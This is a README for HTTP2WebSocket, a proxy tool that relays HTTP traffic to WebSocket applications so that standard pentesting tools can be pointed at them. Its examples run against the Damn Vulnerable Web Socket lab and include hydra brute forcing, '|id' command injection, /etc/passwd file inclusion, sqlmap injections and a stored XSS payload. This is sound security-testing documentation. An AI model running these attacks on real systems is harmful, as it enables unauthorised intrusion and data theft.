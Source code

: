 HTTP2WebSocket
===============
**Latest release**: 1.0<br>
**License**: GNU GPL

HTTP2WebSocket is tool to translate HTTP/1.1 traffic into Web Sockets traffic.
It can be used in conjunction with standard pentesting tools like sqlmap, dirb, commix or others.<br>
It supports:
* SSL (wss://)
* Proxy
* WS connection initiation based on HTTP Host header

## Requirements
* request
* websocket-client

```bash
pip3 install request websocket-client
```

## Installation
No installation is required.

## Usage
- HTTP2WebSocket act as a proxy between HTTP and Web Socket connection. It expects HTTP incomming traffic and translates it to Web Socket application
- GET method is used to discover endpoinds
- POST method is used to sent data to a web socket application
- OPTIONS method to support CORS preflight request, necessary to XMLHttpRequest object

HTTP2WebSocket can work in two ways:
1. The default one is passing the exact HTTP body to the web socket
2. The second one is passing only the value of the parameter provided.<br>

HTTP2WebSocket can be binded to a specific application (-t parameter) or it can be provided in each HTTP request through Host header.

## Examples
Examples are based on Damn Vulnerable Web Socket virtual machine.<br>
Details on how to setup DVWS here: [DVWS](https://github.com/interference-security/DVWS)<br>
Docker image of DVWS: [DVWS docker image](https://github.com/tssoffsec/docker-dvwsocket)

### One WS app - full POST body
Run the listener on port 3333 and connect to dvws.local:8080 web socket app on every HTTP request:
```bash
python3 HTTP2WebSocket.py -l 3333 -t ws://dvws.local:8080
```

Brute force:
```bash
for i in 'abc' 'qwe' 'admin' 'asd' 'zxc'; do echo -n $i|base64; done > dict-passwords.b64
hydra -t 1 -L dict-passwords.b64 -P dict-passwords.b64 -s 3333 127.0.0.1 http-form-post /authenticate-user-prepared:'{"auth_user"\:"^USER^","auth_pass"\:"^PASS^"}':Incorrect
```

Command execution:
```bash
curl "http://127.0.0.1:3333/command-execution" -d '|id'
```

CSRF:<br>
Once logged in open the provided [HTML template](csrf_tmp.html) on the same DVWS browser session, then check the response in the console:
```
HTTP2WebSocket started listening on port: 3333
127.0.0.1 - - [17/May/2024 16:25:30] "OPTIONS /change-password HTTP/1.1" 200 -
127.0.0.1 - - [17/May/2024 16:25:31] "POST /change-password HTTP/1.1" 200 -
 |- RESPONSE --------> Authenticated session is required for changing password.

127.0.0.1 - - [17/May/2024 16:27:27] "OPTIONS /change-password HTTP/1.1" 200 -
127.0.0.1 - - [17/May/2024 16:27:28] "POST /change-password HTTP/1.1" 200 -
 |- RESPONSE --------> Password changed successfully.
```

File inclusion:
```bash
curl --data '/etc/passwd' 127.0.0.1:3333/file-inclusion
```

Error SQL injection:
```bash
sqlmap -u http://127.0.0.1:3333/authenticate-user --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner
```

Blind SQL injection:
```bash
sqlmap -u http://127.0.0.1:3333/authenticate-user-blind --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner
```

Reflected XSS:
```bash
python2 xsssniper.py -u http://127.0.0.1:3333/reflected-xss --post --data="whatever"
```

Stored XSS:
```bash
curl http://127.0.0.1:3333/post-comments --data '{"name":"zzz","comment":"<script>alert(1111)</script>"}'
curl http://127.0.0.1:3333/show-comments -X POST
```

Discovering endpoints:
```bash
dirb http://127.0.0.1:3333/ endpoints-wordlist.txt
```

Other stuff:
```bash
nikto -host http://127.0.0.1:3333/
```

### One WS app - POST body parameter value
Run the listener on port 4444 and connect to dvws.local:8080 web socket app on every HTTP request.<br>
It sends value of the HTTP POST body parameter *fuzz*. Some tools (E.g. commix) don't recognise plain body which is used by WS app.<br>
```bash
python3 HTTP2WebSocket.py -l 4444 -t ws://dvws.local:8080 -P fuzz
```

Command execution:
```bash
python2 commix.py --url "http://127.0.0.1:4444/command-execution" --data "fuzz=127.0.0.1" --skip-empty --technique=C --hostname
```

File inclusion :
```bash
python2 fimap.py -s -b --no-auto-detect -u "http://127.0.0.1:4444/file-inclusion" -P "fuzz=xxx"
```

### Multiple WS apps - full POST body
Run the listener on port 5555. Take Host header from each HTTP request and use it as a target WS application.<br>
*NOTE: Protocol type has to be provided in HTTP Host header (E.g. Host: wss://localhost:1234)*

```bash
python3 HTTP2WebSocket.py -l 5555
```

Brute force:
```bash
hydra -t 1 -L dict-passwords.b64 -P dict-passwords.b64 -s 5555 127.0.0.1 http-form-post /authenticate-user-prepared:'{"auth_user"\:"^USER^","auth_pass"\:"^PASS^"}':Incorrect:"H=Host: ws\://dvws.local\:8080"
```

Command execution:
```bash
curl "http://127.0.0.1:5555/command-execution" -d '|id' -H 'Host: ws://dvws.local:8080'
```

Discover endpoints:
```bash
dirb http://127.0.0.1:5555/ ~/endpoints-wordlist.txt -H Host:ws://dvws.local:8080
```

Other:
```bash
nikto -host http://127.0.0.1:5555/ -vhost ws://dvws.local:8080
```

### Multiple WS apps - POST body parameter value
Run the listener on port 6666. Take Host header from HTTP request and use it as a target WS application.<br>
In this example actual data which is passed to the web socket application is the value of the *fuzz* parameter.
```bash
python3 HTTP2WebSocket.py -l 6666 -P fuzz
```

Command execution:
```bash
python2 commix.py --url "http://127.0.0.1:6666/command-execution" --data "fuzz=127.0.0.1" --skip-empty --technique=C --hostname --host="ws://dvws.local:8080"
```

File inclusion:
```bash
curl --data '/etc/passwd' 127.0.0.1:6666/file-inclusion -H 'Host: ws://dvws.local:8080'
```

Error SQL injection:
```bash
sqlmap -u http://127.0.0.1:6666/authenticate-user --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner --host="ws://dvws.local:8080"
```

Blind SQL injection:
```bash
sqlmap -u http://127.0.0.1:6666/authenticate-user-blind --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner --host=ws://dvws.local:8080
```

### All options example
Single example of all the options of HTTP2WebSocket:<br>

In this example actual data which is passed to the web socket application is the value of the *fuzz* parameter.
```bash
python HTTP2WebSocket.py -l 7777 -t wss://dvws.local:8765 -P fuzz -v -k -p 127.0.0.1:8080
```

|Parameter|Description|
|---|---|
|*-l 7777*|Listen on port 7777/TCP|
|*-t wss://dvws.local:8765*|Bind to dvws.local:8765 WS application through SSL|
|*-P fuzz*|Extract the value of the POST body parameter named *fuzz* and pass it to WS application|
|*-v*|Verbose mode|
|*-k*|Ignore SSL warnings and errors|
|*-p 127.0.0.1:8080*|Send all traffic through jttp proxy: 127.0.0.1:8080|

Sending simple request:
```bash
curl http://127.0.0.1:7777/authenticate-user -v -d 'fuzz=dawid'
```
